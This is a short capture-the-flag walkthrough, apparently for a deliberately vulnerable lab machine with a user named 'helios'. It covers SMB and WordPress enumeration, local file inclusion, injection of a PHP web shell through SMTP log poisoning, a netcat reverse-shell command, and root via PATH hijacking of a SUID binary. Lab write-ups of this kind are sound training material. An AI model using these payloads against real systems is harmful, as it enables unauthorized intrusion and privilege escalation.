


**IP of the machine :- 192.168.122.11**

machine on!!!!!

smtp and smb is running...... that's interesting!!!!

did a script scan to learn about the versions running.

gobuster scan results.

Found SMB shares and a possible username named "Helios"

got a file in anonymous share "attention.txt"

got some possible passwords.

got two more possible files and pass was "qwerty"

let's see /h3li05

got wordpress let's run wpscan.

found an uplods directory for local file inclusion.

found this in uploads directory.....................

will be using this exploit.....................

was able to see the /etc/passwd and found username "helios"

connected to the smtp server added this pup exploit to execute os commands and get a reverse shell into the system.

will be using this exploit to gain reverse shell.

Now went to /var/mail/helios directory where we can execute our os commands and we also execute command id command with it by querying using 'c' parameter which we added when connected to smtp server using telnet "`<?php system($_GET['c']); ?>`".

now we can add c=nc -e /bin/sh 192.168.122.11 9999 to get a reverse shell in the mail directory of the user helios.

Got reverse shell......

Found a strange SUID file "/opt/statuscheck"

Did strings on the file because it was a binary and found that it is using curl.

so added a shell in curl and did 777 permission on the curl and added directory in the PATH env variable, which means we can execute file in /tmp directory and when the file is ran which suid permissions the curl command will run and has read, write and exec. permission by all three and it will lead to vertical priv. esc.

